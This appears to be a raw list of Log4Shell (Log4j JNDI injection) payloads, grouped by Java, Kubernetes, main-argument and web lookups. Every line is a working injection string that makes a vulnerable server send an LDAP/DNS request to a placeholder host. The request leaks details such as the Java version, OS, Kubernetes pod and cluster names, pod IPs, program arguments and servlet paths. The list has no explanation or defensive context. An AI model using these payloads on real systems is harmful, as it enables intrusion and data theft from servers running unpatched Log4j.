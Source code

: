 # Java Lookup
${jndi:ldap://${java:version}.domain.com/j}
${jndi:ldap://${java:runtime}.domain.com/j}
${jndi:ldap://${java:vm}.domain.com/j}
${jndi:ldap://${java:os}.domain.com/j}
${jndi:ldap://${java:locale}.domain.com/j}
${jndi:ldap://${java:hw}.domain.com/j}
 
# Kubernetes Lookup
${jndi:ldap://${k8s:accountName}.domain.com/j}
${jndi:ldap://${k8s:clusterName}.domain.com/j}
${jndi:ldap://${k8s:containerId}.domain.com/j}
${jndi:ldap://${k8s:containerName}.domain.com/j}
${jndi:ldap://${k8s:host}.domain.com/j}
${jndi:ldap://${k8s:hostIp}.domain.com/j}
${jndi:ldap://${k8s:labels.app}.domain.com/j}
${jndi:ldap://${k8s:labels.podTemplateHash}.domain.com/j}
${jndi:ldap://${k8s:masterUrl}.domain.com/j}
${jndi:ldap://${k8s:namespaceId}.domain.com/j}
${jndi:ldap://${k8s:namespaceName}.domain.com/j}
${jndi:ldap://${k8s:podId}.domain.com/j}
${jndi:ldap://${k8s:podIp}.domain.com/j}
${jndi:ldap://${k8s:podName}.domain.com/j}
${jndi:ldap://${k8s:imageId}.domain.com/j}
${jndi:ldap://${k8s:imageName}.domain.com/j}
${jndi:ldap://.domain.com/j}
 
# Main Arguments Lookup
${jndi:ldap://${main:0}.domain.com/j}
${jndi:ldap://${main:1}.domain.com/j}
${jndi:ldap://${main:2}.domain.com/j}
${jndi:ldap://${main:3}.domain.com/j}
${jndi:ldap://${main:4}.domain.com/j}
${jndi:ldap://${main:\--file}.domain.com/j}
${jndi:ldap://${main:\-x}.domain.com/j}
${jndi:ldap://${main:bar}.domain.com/j}
${jndi:ldap://${main:\--quiet:-true}.domain.com/j}
 
# Web Lookup
${jndi:ldap://${web:attr.name}.domain.com/j}
${jndi:ldap://${web:contextPath}.domain.com/j}
${jndi:ldap://${web:contextPathName}.domain.com/j}
${jndi:ldap://${web:effectiveMajorVersion}.domain.com/j}
${jndi:ldap://${web:effectiveMinorVersion}.domain.com/j}
${jndi:ldap://${web:initParam.name}.domain.com/j}
${jndi:ldap://${web:majorVersion}.domain.com/j}
${jndi:ldap://${web:minorVersion}.domain.com/j}
${jndi:ldap://${web:rootDir}.domain.com/j}
${jndi:ldap://${web:serverInfo}.domain.com/j}
${jndi:ldap://${web:servletContextName}.domain.com/j}
 